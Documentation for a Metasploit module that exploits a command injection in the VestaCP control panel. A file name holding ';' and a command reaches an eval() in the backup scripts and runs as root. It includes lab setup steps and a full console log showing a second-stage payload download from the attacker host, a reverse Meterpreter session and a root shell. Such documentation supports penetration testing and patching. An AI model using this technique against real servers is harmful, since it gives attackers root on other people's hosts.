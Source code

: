 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

To exploit this vulnerability, an authenticated attacker with low privileges can request VestaCP backup a file whose file name starts with a '.', followed by the ';' character to escape the current command, and finally the command they wish to execute. During the user backup process, this file name will be evaluated by the v-backup-user bash script, which will not perform appropriate input validation prior to passing this file name to an eval() call. As result, when an attacker tries to list existing backups the injected command will be executed by the v-backup-user bash script and will result in the attacker's injected command being executed as the root user.

## Installing the Vulnerable Application on Ubuntu 18.03 LTS

You can install Vesta Control Panel on Ubuntu 18.04 LTS server with the following commands:

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, perform the following actions in order to create a unprivileged user:

1 - Go to https://*IP ADDR*:8083/

2 - Login with your administrator account.

3 - Click on the "User" section under the top navigation menu. When you move your mouse over the text for
the "User" section, it will turn orange. This is the link that you need to click!

4 - The URL in your browser should now be https://*IP ADDR*:8083/list/user/

5 - Click on the green plus sign on the left side of the page. When you move your mouse
over this button, it will say "ADD USER".

6 - In the following user creation form that appears, enter values for the "user", "password", "email", "first name",
and "last name" fields. Leave package and language options as is, as these fields do not affect exploitation.

7 - Log out of your admin account.

8 - Browse to https://*IP ADDR*:8083/

9 - Verify that the new low privileged user has been created and that you can log in using their credentials.



## Verification Steps

A successful check of the exploit will look similar to the output shown below:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec`
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in the console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in the console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in the console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in the console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in the console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in the console.
15. **Verify** that you are getting a Meterpreter session.

## Ubuntu 18.04 LTS with VestaCP 0.9.26

```
msf > use exploit/linux/http/vestacp_exec
msf exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
msf exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1
LHOST => 192.168.74.1
msf exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1
SRVHOST => 192.168.74.1
msf exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 32.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/poSeL7s
msf exploit(linux/http/vestacp_exec) > [*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/poSeL7s
[+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - The file with the payload in the file name has been successfully uploaded.
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[*] 192.168.74.218:8083 - Starting scheduled backup. Exploitation may take up to 5 minutes.
[+] 192.168.74.218:8083 - Scheduled backup has been started !
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 8 opened (192.168.74.1:4444 -> 192.168.74.218:58790) at 2020-04-11 14:35:23 +0300

msf exploit(linux/http/vestacp_exec) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > shell
Process 42978 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
meterpreter > shell
[+] 192.168.74.218:8083 - It seems scheduled backup is done ..! Triggering the payload <3

#
```
